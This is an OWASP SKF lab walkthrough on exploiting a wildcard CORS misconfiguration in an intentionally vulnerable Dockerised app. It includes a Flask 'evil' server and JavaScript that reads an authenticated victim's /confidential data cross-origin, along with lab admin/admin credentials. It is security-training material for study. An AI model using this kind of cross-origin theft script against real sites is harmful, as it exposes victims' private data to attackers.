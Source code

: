 # CORS exploitation

## Running the app on Docker

```text
$ sudo docker pull blabla1337/owasp-skf-lab:java-cors
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-cors
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.

Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as admin/admin.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CORS/1.png)

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CORS/2.png)

Now that we have logged in as the target user let's look at some intercepted traffic from the application.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CORS/1.png)

The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request from our evil domain in order to steal sensitive information.

{% hint style="info" %}
More information about CSRF:  
[https://www.owasp.org/index.php/Testing_for_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)
{% endhint %}

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://0.0.0.0:5000/confidential', true);
  req.send();

  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>

<p id="stolenInfo"></p>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.

In this request we find the "Origin" header appended to the request from source "[http://0.0.0.0:1337](http://0.0.0.0:1337)" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/CORS/2.png)

This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).

Now, whenever the browser discovers the following header combination:

Let's open our evil app

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CORS/6.png)

We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
